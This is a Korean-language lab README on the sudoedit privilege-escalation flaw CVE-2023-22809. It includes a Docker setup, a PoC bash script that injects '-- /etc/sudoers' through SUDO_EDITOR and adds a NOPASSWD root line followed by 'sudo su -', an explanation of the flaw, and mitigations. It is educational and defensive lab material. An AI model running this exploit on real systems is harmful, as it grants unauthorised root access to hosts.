

# CVE-2023-22809

contributor **(@gyulin719)**
<br>
<br>

#### 취약점
---
sudoedit 권한이 있는 로컬 사용자가

SUDO_EDITOR, VISUAL, EDITOR에 추가 --와 파일 경로를 삽입하여 

권한 밖의 파일을 RunAs 사용자 권한으로 편집하는 정책 우회 취약점이다.

예를 들어 /etc/tmp/allowed.conf만 sudoedit으로 접근 가능한 사용자 attacker가

CVE-2023-22809의 취약점을 이용하여 원래는 접근 불가능한 sudoers 파일에 접근한 뒤

루트 권한을 획득하도록 편집하는 방식이다. 

<br>

#### 환경 구성
---
OS : Ubuntu 22.04 LTS

sudo 버전 : 1.9.12p1

editor : vim

환경 : Docker Container

<br>

#### 취약 조건
---
sudo 버전 1.8.0 ~ 1.9.12p1

로컬 사용자가 sudoedit을 사용할 수 있어야 한다.  

SUDO_EDITOR 또는 EDITOR 환경변수 제어가 가능해야 한다.

vim, nano 등 에디터 역시 필요하다.

<br>

#### 재현 절차
---
**1. Docker 환경 구축**
```bash
docker compose up --build -d
docker exec -it cve-2023-22809-lab bash
```

<br>

**2. 환경, 권한 확인**
```bash
whoami
sudo -l
```
<br>

**3. exploit**
```bash
bash ./poc.sh
```
vim으로 sudoers에 다음 줄을 추가한다.
```bash
attacker ALL=(ALL:ALL) NOPASSWD: ALL
```
변경사항을 저장하고 docker 컨테이너 터미널로 나온다. 

<br>

**4. 변경사항 확인**
```bash
whoami
sudo -l
```
whoami로 사용자의 권한 상승이 가능해진 것을 확인할 수 있다. 

<br>

#### PoC 코드
---

```bash
#!/bin/bash
# CVE-2023-22809

# 먼저 exploit 전의 sudo version과 sudo 권한을 출력한다.
echo "[*] Checking sudo version..."
sudo --version
 
echo "[*] Checking current permissions..."
sudo -l

# CVE의 exploit을 이용한다. SUDO_EDITOR 환경변수에 --를 끼워넣어 sudoers를 편집한다.
echo "[*] Attempting exploit: SUDO_EDITOR='vim -- /etc/sudoers' sudoedit /etc/lab/allowed.conf"
echo "[*] In vim: type 'attacker ALL=(ALL:ALL) NOPASSWD: ALL' and save"
SUDO_EDITOR='vim -- /etc/sudoers' sudoedit /etc/lab/allowed.conf
 
echo "[*] Checking if exploit succeeded..."
sudo -l

# sudo 권한을 획득한다. 
echo "[*] Getting root shell..."
sudo su -
```
<br>

#### PoC 설명
---

sudoedit은 root 권한으로 파일을 읽고 수정용 임시 파일을 생성한다. 

그리고 사용자의 권한으로 편집기를 실행해 임시 파일을 수정한 뒤 원본에 그 내용을 반영하는 방식이다. 

```bash
SUDO_EDITOR=vim sudoedit /etc/tmp/example.conf
```
위와 같이 사용자는 SUDO_EDITOR 환경 변수에 편집기를 입력해 선택할 수 있다.


```bash
vim -- /etc/tmp/example.conf
```
정상적일 경우 sudoedit은 위와 같은 최종 명령을 만든다.

--를 기준으로 앞은 사용할 편집기 프로그램과 옵션,

뒤는 수정할 파일 경로에 해당한다. 

<br>

하지만 sudo가 SUDO_EDITOR를 제대로 검사하지 않아 취약점이 발생한다.

```bash
SUDO_EDITOR='vim -- /etc/sudoers' sudoedit /etc/tmp/example.conf
```
사용자가 이렇게 작성하면 sudoedit은 먼저 해당 사용자가 example.conf를 sudoedit으로 편집할 권한이 있는지 

sudoers 정책을 바탕으로 확인하고 허용한다. 

그리고 sudo는 SUDO_EDITOR를 읽어서 다음 코드와 같이 명령을 재조립한다. 
```bash
vim -- /etc/sudoers -- /etc/tmp/allowed.conf
```
sudo는 첫 번째 --를 기준으로 파일 목록을 결정하므로 sudoers와 allowed.conf 모두 편집할 파일로 취급한다. 

allowed.conf에 대해 정책 검사를 이미 수행했으므로 sudoers 정책 검사를 다시 하지 않고 sudoers를 편집할 수 있으며

두 번째 -- 때문에 경고가 나타날 수는 있지만 여전히 exploit은 수행 가능하다. 

<br>


그리고 exploit 후의 sudo version과 sudo 권한을 출력한다. 

<br>

#### 실행 결과
---

먼저 docker compose 명령어로 컨테이너를 빌드하고 터미널에 접속한다.  


그 다음 터미널에서 whoami 명령어로 사용자가 attacker임을 확인하고 

sudoers에는 접근할 수 없음을 확인한다. 

<br>


poc.sh를 실행하면 SUDO_EDITOR='vim -- /etc/sudoers' 이 실행되면서 sudoers 파일이 vim으로 열린다.
<br>


위와 같은 sudoers 파일에 attacker의 권한을 수정하는 줄을 추가한다. 
<br>


<br>

수정한 sudoers를 저장하고 터미널로 돌아오면 poc.sh의 sudo su - 가 실행되어 

attacker가 root 권한을 획득한 것을 확인할 수 있다.


따라서 정상적인 명령으로 sudoers에 접근을 시도하면 아래 사진과 같이 vim으로 sudoers가 열리고

수정도 가능하다. 



<br>

#### 대응 방안
---
근본적으로는 sudo를 1.9.13 이상으로 업그레이드해야 한다.

1.9.13 이상의 버전에서는 편집기 인자 내부에 --가 포함되어 있는지 검사하므로 해당 취약점이 패치되었다. 

업데이트가 어려운 경우는 sudoedit에서 사용자 지정 편집기 환경변수를 제거하는 방법이 있다.

sudoedit 정책 역시 최소 권한 원칙에 따라 점검해야 하는데

사용하지 않는 sudoedit 권한은 제거하고, 

sudoedit 권한이 필요한 경우 편집 가능한 파일의 경로를 정확하게 지정해야 한다. 

편집이 허용된 파일이 SSH 키, 서비스 실행 설정 등의 간접적인 명령 실행 또는 권한 상승에 영향을 주는 파일인지도 확인해야 한다. 
